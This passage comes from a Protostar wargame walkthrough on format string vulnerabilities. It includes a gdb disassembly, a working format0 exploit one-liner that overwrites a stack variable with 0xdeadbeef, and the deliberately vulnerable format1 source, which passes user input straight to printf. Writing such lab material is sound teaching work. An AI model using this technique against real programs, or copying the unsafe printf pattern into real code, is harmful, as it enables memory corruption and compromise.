 We take a look at a disassembly of the `vuln()` function.

```
(gdb) disass vuln
Dump of assembler code for function vuln:
0x080483f4 <vuln+0>:    push   %ebp
0x080483f5 <vuln+1>:    mov    %esp,%ebp
0x080483f7 <vuln+3>:    sub    $0x68,%esp
0x080483fa <vuln+6>:    movl   $0x0,-0xc(%ebp)
0x08048401 <vuln+13>:   mov    0x8(%ebp),%eax
0x08048404 <vuln+16>:   mov    %eax,0x4(%esp)
0x08048408 <vuln+20>:   lea    -0x4c(%ebp),%eax
0x0804840b <vuln+23>:   mov    %eax,(%esp)
0x0804840e <vuln+26>:   call   0x8048300 <sprintf@plt>
0x08048413 <vuln+31>:   mov    -0xc(%ebp),%eax
0x08048416 <vuln+34>:   cmp    $0xdeadbeef,%eax
0x0804841b <vuln+39>:   jne    0x8048429 <vuln+53>
0x0804841d <vuln+41>:   movl   $0x8048510,(%esp)
0x08048424 <vuln+48>:   call   0x8048330 <puts@plt>
0x08048429 <vuln+53>:   leave
0x0804842a <vuln+54>:   ret
End of assembler dump.
```

The interesting memory locations here are `-0x4c(%ebp)` which belongs to
`buffer` and `-0xc(%ebp)` which belongs to `target`.

One method of exploiting format strings is pretty similar to buffer overflows.
You can write a large string into a buffer with a relatively short format
string. For example, a format string `%128d` results in a 128 byte string.
Using this trick, it is simple to write past `buffer` into `target`. We want to
create a format string that writes 64 characters followed by `0xdeadbeef`,
which results in `target` being overwritten.

```shell
user@protostar:~$ /opt/protostar/bin/format0 $(python -c "print '%64d\xef\xbe\xad\xde'")
you have hit the target correctly :)
```

# format 1

We are given the below source code.

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln(char *string)
{
  printf(string);

  if(target) {
      printf("you have modified the target :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```


[exploit-exercises]: https://exploit-exercises.com
[protostar-stack-writeup]: {% post_url 2018-05-22-protostar-walkthrough-stack %}
[exploiting-format-string-paper]: https://crypto.stanford.edu/cs155/papers/formatstring-1.2.pdf
[got-blog-post]: https://eli.thegreenplace.net/2011/11/03/position-independent-code-pic-in-shared-libraries/
